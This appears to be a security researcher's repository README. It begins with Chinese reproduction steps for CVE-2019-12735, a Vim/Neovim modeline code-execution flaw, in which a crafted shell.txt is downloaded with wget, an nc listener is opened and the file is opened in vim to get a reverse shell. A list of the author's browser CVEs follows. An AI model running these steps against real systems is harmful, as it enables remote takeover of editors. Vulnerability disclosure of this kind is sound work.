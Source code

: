 # 复现方法
1.配置默认开启modeline  
vi ~/.vimrc  
set modeline

2.检查默认是否开启modeline  
vi shell.txt  
:set modeline?  

3.下载shell.txt  
wget https://raw.githubusercontent.com/ThirdWang/security/master/data/2019-06-04_ace-vim-neovim/shell.txt  
#实际上，shell.txt不能直接拷贝上述网页上的文本来生成，如果拷贝网页上的内容，十六进制比如\x1b是需要通过二进制编辑器直接改成二进制的，并且需要处理命令中的反斜杠的字符“\”。  

4. nc -vlp 9999  
#本机开启监听  

5. vim shell.txt  

Demo (victim left, attacker right):  

![image](https://i.imgur.com/8w4tteX.gif)  

# security

This repository will contain security-related stuff I'm doing. (Also, [@rawsec](https://twitter.com/rawsec) on Twitter)

Recent:

- 2019-06-04 [Vim/Neovim Arbitrary Code Execution via Modelines](doc/2019-06-04_ace-vim-neovim.md) (CVE-2019-12735)

More to come...

---



CTF write-ups:



- [Google CTF 2017 | Geokitties v2](https://github.com/numirias/ctf/blob/master/writeup-google-ctf-2017-geokitties-v2.md)



- [*Many more...*](https://security.meta.stackexchange.com/search?tab=votes&q=user%3a95381%20is%3aanswer%20%5bwrite-up%5d)


[My answers](https://security.stackexchange.com/users/95381/arminius?tab=answers)  on Security.SE (many trivial, but also a few interestinig ones).

Some older bugs:

- 2017-01-25 [Google Chrome: Address spoofing in Omnibox](https://bugs.chromium.org/p/chromium/issues/detail?id=673971
) (CVE-2017-5015)

- 2017-01-24 [Mozilla Firefox: Location bar spoofing with unicode characters](https://www.mozilla.org/en-US/security/advisories/mfsa2017-01/#CVE-2017-5383) (CVE-2017-5383)

- 2016-06-07 [Mozilla Firefox: Partial SOP violation via forged location.host](https://www.mozilla.org/en-US/security/advisories/mfsa2016-54/) (CVE-2016-2825)

- 2015-05-19 [Google Chrome: Cross-origin bypass in Editing](https://bugs.chromium.org/p/chromium/issues/detail?id=444927) (CVE-2015-1254)

- 2015-04-03 [Mozilla Firefox: Privileged URLs processed by about:reader](https://www.mozilla.org/en-US/security/advisories/mfsa2015-43/) (CVE-2015-0798)

- 2015-03-31 [Mozilla Firefox: Addon permissions exposed to man-in-the-middle attacks](https://www.mozilla.org/en-US/security/advisories/mfsa2015-32/) (CVE-2015-0812)

- 2015-02-24 [Mozilla Firefox: Local files or privileged URLs in pages can be opened into new tabs](https://www.mozilla.org/en-US/security/advisories/mfsa2015-25/) (CVE-2015-0821)

- 2015-02-24 [Mozilla Firefox: Arbitrary File Read Vulnerability via Form Autocomplete](https://www.mozilla.org/en-US/security/advisories/mfsa2015-24/) (CVE-2015-0822)
